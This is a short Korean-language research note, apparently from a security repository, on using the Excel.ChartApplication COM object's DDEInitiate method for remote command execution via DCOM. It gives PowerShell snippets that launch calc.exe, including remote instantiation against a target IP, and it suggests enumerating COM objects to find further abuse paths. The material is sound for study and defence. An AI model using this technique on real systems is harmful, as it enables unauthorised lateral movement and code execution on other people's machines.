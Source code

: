 
# 원격 COM 객체 인스턴스화와 명령어 실행


```
$instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.ChartApplication"))
$instance.Parent.DDEInitiate("cmd","/c calc.exe")

$instance.Parent.DisplayAlerts = $false
$instance.Parent.DDEInitiate("cmd","/c calc.exe")

```

![](COM_Object/Demo3.gif)

Excel.ChartApplication COM 객체의 DDEInitiate 메소드를 통해 임의의 명령어를 실행시킬 수 있습니다.

```
$instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.ChartApplication", XXX.XXX.XXX.XXX))

```

이때, DisplayAlerts 속성 값을 false로 수정 후 타겟 ip와 함께 객체를 생성하면 원격에서 인스턴스화 후 임의의 명령어가 실행됩니다.

과거 Office 2013에서 DDEInitiate 메소드를 통해 [악용된 사례](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)가 있었다고 합니다.

따라서, COM 객체의 재귀적 탐색을 통해 기존에 알려진 COM 객체 메소드 외에도 새로운 객체와 메소드를 탐색함으로써 악용 가능한 추가 경로를 찾아낼 수 있습니다.
